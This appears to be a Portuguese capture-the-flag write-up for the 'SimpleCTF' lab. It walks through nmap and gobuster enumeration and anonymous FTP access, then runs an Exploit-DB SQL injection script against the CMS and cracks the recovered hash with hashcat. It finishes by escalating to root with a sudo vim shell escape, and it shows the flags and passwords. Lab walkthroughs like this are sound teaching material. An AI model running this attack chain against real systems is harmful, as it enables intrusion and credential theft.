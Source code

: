 # Lab: SimpleCTF (Easy Mode)

## TASKs:

1.  
2.  
3.  

---

```
ip addr show tun0
```
`10.8.32.62`

```
export IP=10.10.169.195
```

---

## 1) Enumeração com Nmap
```bash
nmap -A 10.10.169.195
```
**Resultados:**
```
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```
(INFO: FLAG!)

---

## 2) Acesso FTP
```bash
ftp 10.10.169.195
```
> **ftp Nome de utilizador:** anonymous

```bash
ftp> ls
ftp> cd pub
ftp> mget *
ftp> bye
```
**Ficheiro Encontrado:** `ForMitch.txt` (INFO: Informa que a password é fraca)

---

## 3) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Resultado:** `/simple` (Site Type: CMS)
```
http://10.10.169.195/simple
```

---

## 4) Exploração - Vulnerabilidade SQLi no CMS
> **ExploitDatabase:** Identificado vuln no CMS (SQLi -> ficheiro Python a descarregar para exe)
```bash
python2 46635.py -u http://10.10.169.195/simple
```
**Credenciais Obtidas:**
Salt for Password: `1dac092e9fa6bb2`
Username: `mitch`
Email: `admin@admin.com`
Password Hash: `0c01f4468bd75d7a84c7eb73846e8d96`

---

## 5) Quebra de Hash com Hashcat
```bash
hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac092e9fa6bb2 /usr/share/wordlist/rockyou.txt
```
**Senha Encontrada:** `secret` (INFO: FLAG!)

---

## 6) Acesso via SSH
```bash
ssh mitch@10.10.169.195 -p 2222
```
> **ssh Password:** `secret`

```bash
$ whoami
$ bash
$ ls
$ cat user.txt
```
**Mensagem:** `G00d j0b, keep up!`

---

## 7) Elevação de Privilégios
```bash
ls /home
```
**User Identificado:** `sunbath` (INFO: FLAG!)

```bash
sudo -l
```
**Vulnerabilidade Identificada:** `vim` (leverage to spawn a privileged shell)
**Site GTFOBins**: (vim -> sudo) Identificar um bypass para o Vim.
```bash
sudo vim -c ':!/bin/sh'
```

```bash
# whoami
```
**Resultado:** `root`

```bash
# cd /root
# ls
# cat root.txt
```
**Mensagem Final:**
`w3ll d0ne. You made it!` (INFO: FLAG!)
